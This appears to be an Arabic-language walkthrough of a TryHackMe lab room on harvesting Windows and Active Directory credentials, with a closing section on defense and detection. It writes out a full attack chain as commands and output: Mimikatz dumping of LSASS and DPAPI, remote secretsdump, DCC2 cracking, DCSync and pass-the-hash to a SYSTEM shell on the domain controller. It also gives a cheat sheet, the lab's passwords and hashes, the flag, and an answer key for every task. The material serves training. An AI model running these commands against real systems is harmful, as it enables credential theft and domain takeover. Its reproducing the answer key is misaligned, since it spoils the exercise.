


# دليل حصد بيانات الاعتماد في بيئات ويندوز والدليل النشط: Intro to Credential Harvesting
**المسار التعليمي:** Jr Penetration Tester | **الوحدة 14:** أساسيات اختبار اختراق الدليل النشط (Active Directory)

---

## 1. نظرة عامة على الغرفة (Room Overview)

تعد غرفة **Intro to Credential Harvesting** (المعرف المصدري: `introtocredentialharvesting`) دليلاً عملياً وتطبيقياً متقدماً على كيفية تخزين وتخبئة وتأمين واستخراج بيانات الاعتماد (Credentials) داخل أنظمة تشغيل Windows وبيئات الدليل النشط (Active Directory).

في العديد من سيناريوهات اختبار الاختراق وعمليات الفريق الأحمر (Red Teaming)، لا يحتاج المهاجم إلى استغلال ثغرات برمجية معقدة في الخدمات للسيطرة على الشبكة؛ فبمجرد الحصول على موطئ قدم إداري محلي (Local Administrator) على محطة عمل واحدة داخل النطاق، يصبح بإمكانه استخراج بيانات الاعتماد المخزنة محلياً لمديري النطاق (Domain Admins) أو حسابات الخدمات، ثم الانتقال جانبياً (Lateral Movement) والسيطرة الكاملة على النطاق. تغطي هذه الغرفة خمسة مستودعات مركزية لبيانات الاعتماد:
1. **ذاكرة عملية LSASS:** التخزين المؤقت لتجزئات NTLM وتذاكر Kerberos وكلمات المرور الصريحة في الذاكرة العشوائية.
2. **خلايا التسجيل SAM و SYSTEM:** مستودع تجزئات حسابات المستخدمين المحليين.
3. **أسرار LSA (LSA Secrets):** مستودع التخزين المؤقت لبيانات تسجيل دخول النطاق (DCC2 / MS-Cache v2) وكلمات مرور الخدمات ومهام التشغيل المجدولة.
4. **خزائن DPAPI (Data Protection API):** مستودع كلمات المرور المحفوظة لمتصفحات الويب وجلسات RDP.
5. **قاعدة بيانات النطاق NTDS.dit:** قاعدة بيانات الدليل النشط المركزية على متحكم النطاق والتي تضم كافة تجزئات حسابات النطاق.

---

## 2. أهداف التعلم (Learning Objectives)

بنهاية التطبيق العملي لهذه الغرفة، يكتسب مختبر الاختراق المهارات التالية:
- **فهم البنية المعمارية لمستودعات الاعتماد في Windows:** إدراك الفرق بين التخزين في الذاكرة (LSASS) والتخزين المشفر في خلايا التسجيل (SAM/SYSTEM) وخزائن DPAPI وقاعدة بيانات NTDS.dit.
- **إتقان استخراج الاعتماد عبر أداة Mimikatz:** تفعيل الامتيازات الخاصة (`privilege::debug`) واستخراج أسرار الذاكرة (`sekurlsa::logonpasswords`) وتصدير خزائن الويب (`vault::cred /export`).
- **استخراج بيانات الاعتماد عن بُعد عبر Secretsdump:** استخدام مكتبة Impacket لاستخراج تجزئات SAM وذاكرة LSA دون الحاجة إلى تشغيل أدوات صريحة على الهدف.
- **تكسير تجزئات DCC2 (MS-Cache v2) دون اتصال:** فهم خوارزمية الاشتقاق المبنية على PBKDF2-HMAC-SHA1 وتكسيرها باستخدام أداة John the Ripper.
- **تنفيذ هجوم تفويض النطاق DCSync:** محاكاة متحكم النطاق وسحب تجزئة مدير النطاق عبر بروتوكول MS-DRSR (DRSUAPI).
- **السيطرة على متحكم النطاق عبر هجوم Pass-the-Hash:** استخدام أداة `psexec.py` للاتصال المباشر بتجزئة NTLM دون الحاجة لمعرفة كلمة المرور الصريحة.

---

## 3. الطوبولوجيا المعمارية والبنية التحتية للمختبر (Architectural Topology)

تتواجد البنية التحتية للمختبر في النطاق الفرعي `10.220.10.0/24`، ويتم الاتصال بها عبر نفق OpenVPN (`tun0`):



### بيانات الأجهزة وبيانات الاعتماد المستهدفة:
- **محطة العمل (WRK):** `10.220.10.20` (بيانات الدخول الإدارية: `Administrator` / `N3w34829DJdd?1`)
- **متحكم النطاق (DC):** `10.220.10.10` (`DC.tryhackme.loc`)
- **المستخدم المحلي المستخرج:** `ElonTusk` (كلمة مرور بريد Gmail: `MyTusksAreThaB3st`)
- **حساب الخدمة المستخرج:** `TRYHACKME\svc-app` (كلمة المرور: `S3rv!c3Acc!`)
- **مدير النطاق المخبأ (DCC2):** `TRYHACKME\drgonzo` (التجزئة مكسورة إلى: `lasvegas1`)
- **تجزئة NTLM لمدير النطاق:** `d71ee9fb6a3f54496bdc6c941f7a2903`
- **راية التحدي (Flag):** `THM{gotta_l0ve_cr3dential_st0res}`

---

## 4. الخلفية التقنية والتعمق المفاهيمي (Technical Background)

### مقارنة مستودعات الاعتماد في بيئات ويندوز:

| المستودع (Credential Store) | موقع التخزين | نوع البيانات المخزنة | الامتياز المطلوب للوصول | الأداة وطريقة الاستخراج |
|---|---|---|---|---|
| **LSASS Memory** | ذاكرة النظام (`lsass.exe`) | تجزئات NTLM، تذاكر كيربيروس، كلمات مرور صريحة | `SYSTEM` أو `SeDebugPrivilege` | `mimikatz`: `sekurlsa::logonpasswords` |
| **SAM & SYSTEM** | قرص النظام (`config\SAM`) | تجزئات الحسابات المحلية للنظام | مدير محلي أو امتياز النسخ الاحتياطي | `reg save` أو `secretsdump.py` |
| **LSA Secrets** | خلية التسجيل `SECURITY` | جلسات النطاق المخبأة (DCC2) وبيانات الخدمات | `SYSTEM` (Token Elevation) | `mimikatz`: `lsadump::cache` |
| **DPAPI Vault** | ملف تعريف المستخدم `%APPDATA%` | كلمات مرور الويب، اتصالات RDP | مستخدم الجلسة أو مفتاح DPAPI MasterKey | `mimikatz`: `vault::cred /export` |
| **NTDS.dit** | متحكم النطاق (`C:\Windows\NTDS`) | قاعدة بيانات النطاق الشاملة | مدير النطاق عبر بروتوكول MS-DRSR | `secretsdump.py -just-dc` |

---

## 5. الاستكشاف المحلي وحصد بيانات الاعتماد عبر Mimikatz

تم الاتصال بمحطة العمل `WRK` عبر بروتوكول RDP وتشغيل موجه أوامر بصلاحيات إدارية، ثم استدعاء أداة Mimikatz:

### 1. استخراج خزائن DPAPI (Web Credentials Vault):
```text
mimikatz # vault::list
mimikatz # vault::cred /export
```
أظهرت النتائج فك تشفير بيانات الاعتماد المحفوظة في متصفح الويب للمستخدم `ElonTusk`:
- **المورد:** `https://mail.google.com`
- **الهوية:** `ElonTusk`
- **كلمة المرور:** **`MyTusksAreThaB3st`**

### 2. استخراج كلمات المرور من ذاكرة LSASS:
تم تفعيل امتياز التصحيح `SeDebugPrivilege` ثم سحب كلمات المرور النشطة:
```text
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
```
في قسم حسابات الخدمات المرتبطة بالنطاق، كشفت مخرجات مزود المصادقة WDigest و Kerberos عن كلمة المرور الصريحة لحساب الخدمة `svc-app`:
- **المستخدم:** `svc-app`
- **النطاق:** `TRYHACKME`
- **كلمة المرور الصريحة:** **`S3rv!c3Acc!`**

---

## 6. استخراج الاعتماد عن بُعد عبر Secretsdump وتكسير DCC2

### 1. سحب تجزئات SAM و LSA Cache من محطة العمل:
تم تنفيذ أداة `secretsdump.py` عن بُعد عبر الشبكة من جهاز المهاجم:
```bash
secretsdump.py WRK/Administrator:N3w34829DJdd?1@10.220.10.20
```
أظهرت المخرجات وجود تجزئة نطاق مخبأة (DCC2 / MS-Cache v2) لمدير النطاق `drgonzo`:
```text
$DCC2$10240#drgonzo#d0dc1647e45cf7364ecec3c7740fce0f
```

### 2. كسر تجزئة DCC2 عبر John the Ripper:
تستخدم خوارزمية DCC2 الدالة `PBKDF2-HMAC-SHA1` بعدد تكرارات يبلغ $10,240$ دورة وتعتمد اسم المستخدم كملح (Salt). تم كسر التجزئة باستخدام قاموس `rockyou.txt`:
```bash
echo '$DCC2$10240#drgonzo#d0dc1647e45cf7364ecec3c7740fce0f' > dcc2.txt
john --format=mscash2 dcc2.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
**النتيجة:** كسر كلمة المرور بنجاح:
$$\text{User: } \texttt{drgonzo} \quad | \quad \text{Password: } \texttt{lasvegas1}$$

---

## 7. التصعيد الشامل: هجوم DCSync وتفويض النطاق

بما أن المستخدم `drgonzo` عضو في مجموعة مديري النطاق (`Domain Admins`)، فإنه يمتلك افتراضياً صلاحية استنساخ النطاق (`DS-Replication-Get-Changes-All`).

### تنفيذ هجوم DCSync عبر DRSUAPI:
تم الاتصال بمتحكم النطاق `10.220.10.10` دون الحاجة لتسجيل دخول تفاعلي أو رفع برمجيات خبيثة:
```bash
secretsdump.py 'TRYHACKME/drgonzo:lasvegas1@10.220.10.10' -just-dc
```
أظهرت المخرجات استخراج تجزئات قاعدة بيانات NTDS.dit بالكامل:
```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d71ee9fb6a3f54496bdc6c941f7a2903:::
```
**تجزئة NTLM لمدير النطاق:**
$$\texttt{d71ee9fb6a3f54496bdc6c941f7a2903}$$

---

## 8. السيطرة على متحكم النطاق عبر Pass-the-Hash (PtH)

في بروتوكول المصادقة NTLM، لا يحتاج المهاجم إلى معرفة كلمة المرور الصريحة؛ حيث تعتمد عملية المصافحة بالكامل على تجزئة NTLM كمفتاح تشفير لإثبات الهوية.

باستخدام أداة `psexec.py`:
```bash
psexec.py 'TRYHACKME/Administrator@10.220.10.10' -hashes :d71ee9fb6a3f54496bdc6c941f7a2903
```
تم الحصول على موجه أوامر تفاعلي بصلاحيات `NT AUTHORITY\SYSTEM` على متحكم النطاق:
```cmd
C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
THM{gotta_l0ve_cr3dential_st0res}
```
**الراية المستخرجة:** `THM{gotta_l0ve_cr3dential_st0res}`.

---

## 9. مسار الهجوم الشامل وسلسلة القتل (Comprehensive Attack Flow)



---

## 10. استراتيجيات الدفاع والتحصين والكشف (Defense & Hardening)

| مجال الحماية | الإجراء التقني الوقائي | آلية التدقيق والكشف |
|---|---|---|
| **حماية ذاكرة LSASS** | تفعيل ميزة `RunAsPPL` (Protected Process Light) وتفعيل Credential Guard في ويندوز. | رصد حدث Sysmon **Event ID 10** لمحاولات فتح مؤشر عملية `lsass.exe`. |
| **إدارة كلمات المرور المحلية** | تطبيق نظام **LAPS** (Local Administrator Password Solution) لضمان عشوائية كلمات المرور المحلية. | التدقيق الدوري لمنع تشابه كلمات مرور المسؤولين المحليين عبر الأجهزة. |
| **تقليص الاعتماد المخبأ** | تعديل قيمة `CachedLogonsCount` في خلية Winlogon من 10 إلى 0 أو 1 على الأجهزة الحساسة. | مراقبة محاولات تسجيل الدخول دون اتصال عبر سجلات الأمان. |
| **رصد هجوم DCSync** | قصر صلاحيات `Get-Changes` و `Get-Changes-All` على متحكمات النطاق فقط. | تفعيل تدقيق الوصول للأدلة ورصد **Event ID 4662** لعمليات استنساخ الدليل النشط. |
| **الحد من هجمات PtH** | إضافة مديري النطاق إلى مجموعة `Protected Users` لمنع تفويض NTLM واستخدام كيربيروس حصراً. | مراقبة أحداث تسجيل الدخول عبر الشبكة من نوع NTLM (**Event ID 4624 Type 3**). |

---

## 11. ملخص المهام وجدول الإجابات النموذجية (Tasks Summary)

| رقم المهمة | عنوان المهمة | السؤال | الإجابة الموثقة والنهائية | حالة التحقق |
|:---:|---|---|---|:---:|
| **01** | Introduction | I am connected to the network | `No answer needed` | محققة ومؤكدة |
| **02** | Windows & AD Credential Stores | Which Windows component stores active NTLM and Kerberos credentials in memory? | `LSASS` | محققة ومؤكدة |
| **02** | Windows & AD Credential Stores | What file in the C:\Windows\NTDS\ directory contains the AD database? | `ntds.dit` | محققة ومؤكدة |
| **02** | Windows & AD Credential Stores | Which Mimikatz command exports DPAPI Vault credentials? | `vault::cred /export` | محققة ومؤكدة |
| **03** | Credential Extraction With Mimikatz | What is Elon Tusk's Gmail password? | `MyTusksAreThaB3st` | محققة ومؤكدة |
| **03** | Credential Extraction With Mimikatz | What is svc-app's password? | `S3rv!c3Acc!` | محققة ومؤكدة |
| **04** | Harvesting With Secretsdump | What is drgonzo's password? | `lasvegas1` | محققة ومؤكدة |
| **04** | Harvesting With Secretsdump | What is the domain Administrators NTLM hash? | `d71ee9fb6a3f54496bdc6c941f7a2903` | محققة ومؤكدة |
| **04** | Harvesting With Secretsdump | What is the flag located on the domain admin's Desktop? | `THM{gotta_l0ve_cr3dential_st0res}` | محققة ومؤكدة |
| **05** | Conclusion | Onto the next AD room! | `No answer needed` | محققة ومؤكدة |

---

## 12. ورقة مساعدة الأوامر والأدوات (Tool Cheat Sheet)

```bash
# 1. أوامر Mimikatz المحلية:
privilege::debug
vault::list
vault::cred /export
sekurlsa::logonpasswords
token::elevate
lsadump::cache

# 2. سحب الاعتماد عن بُعد عبر secretsdump.py:
secretsdump.py WRK/Administrator:Password@10.220.10.20

# 3. تكسير تجزئات DCC2 / MS-Cache v2 عبر John:
john --format=mscash2 dcc2_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

# 4. تكسير تجزئات DCC2 عبر Hashcat:
hashcat -m 2100 dcc2_hash.txt /usr/share/wordlists/rockyou.txt

# 5. تنفيذ هجوم DCSync ضد متحكم النطاق:
secretsdump.py 'TRYHACKME/drgonzo:lasvegas1@10.220.10.10' -just-dc

# 6. تنفيذ هجوم Pass-the-Hash عبر psexec.py:
psexec.py 'TRYHACKME/Administrator@10.220.10.10' -hashes :d71ee9fb6a3f54496bdc6c941f7a2903
```

---

## 13. التحقق العملي وإثبات الإنجاز (Practical Verification)

1. تم فك تشفير خزانة DPAPI وظهور كلمة مرور `ElonTusk:MyTusksAreThaB3st`.
2. تم استخراج كلمة مرور حساب الخدمة `svc-app:S3rv!c3Acc!` من ذاكرة LSASS.
3. تم كسر تجزئة `drgonzo` المخبأة (`lasvegas1`) وتأكيد عضويته في مجموعة Domain Admins.
4. تم استخراج تجزئة مدير النطاق `Administrator:d71ee9fb6a3f54496bdc6c941f7a2903` بنجاح عبر DCSync.
5. تم الاتصال بمتحكم النطاق عبر Pass-the-Hash وقراءة الراية: `THM{gotta_l0ve_cr3dential_st0res}`.

---

## 14. الدروس المستفادة والقواعد الذهبية (Key Takeaways)

> **القاعدة الذهبية الأولى:** تجزئة NTLM ليست كلمة مرور مشفرة تحتاج لفك تشفير؛ بل هي مكافئة تماماً لكلمة المرور الصريحة في بروتوكول المصادقة (Pass-the-Hash)، وحمايتها تعادل حماية كلمة المرور نفسها.
>
> **القاعدة الذهبية الثانية:** لا تسجل دخولك بحساب مدير نطاق (Tier 0) على محطة عمل مستخدم عادي (Tier 2) أبداً؛ فبيانات اعتمادك إما ستظل عالقة في ذاكرة LSASS أو ستُخزن كجلسة مخبأة (DCC2) قابلة للكسر والاستغلال.
>
> **القاعدة الذهبية الثالثة:** طبق LAPS على الفور؛ توحيد كلمات مرور المسؤولين المحليين عبر محطات العمل يفتح الباب على مصراعيه للانتقال الجانبي السريع بمجرد اختراق أول جهاز.
